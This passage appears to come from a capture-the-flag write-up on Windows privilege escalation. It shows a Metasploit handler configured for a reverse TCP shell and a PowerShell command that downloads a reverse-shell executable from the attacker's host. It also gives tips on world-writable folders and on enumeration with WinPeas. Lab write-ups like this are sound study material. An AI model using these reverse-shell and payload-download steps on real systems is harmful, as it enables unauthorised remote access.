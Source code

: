 * used this [website](https://shell.anir0y.in/) to generate the shellcode.
* msf.rc
  
  ```bash
  #saved as shell.rc
  use exploit/multi/handler
  set payload windows/x64/shell_reverse_tcp 
  set lhost 10.17.4.40
  set lport 1337
  set exitonsession false
  exploit -j
  ```

* run listener
  `msfconsole -r shell.rc`

* upload the file
  `powershell -c "Invoke-WebRequest -Uri 'http://10.17.4.40/reverse.exe' -OutFile 'rev.exe'"`
* run the file



### Flag 5.2

Tip: It's common to find C:\Windows\Temp is world writable!

### Flag 5.3

WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!

> Using winPeas, what was the Original Install time? (This is date and time)
`8/3/2019, 10:43:23 AM`

  a `systeminfo.exe` commnd gives it away.

---



<script type="text/javascript" language="javascript">
      var aax_size='300x250';
      var aax_pubname = 'anir0y-21';
      var aax_src='302';
    </script>
<script type="text/javascript" language="javascript" src="https://c.amazon-adsystem.com/aax2/assoc.js"></script>


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

---
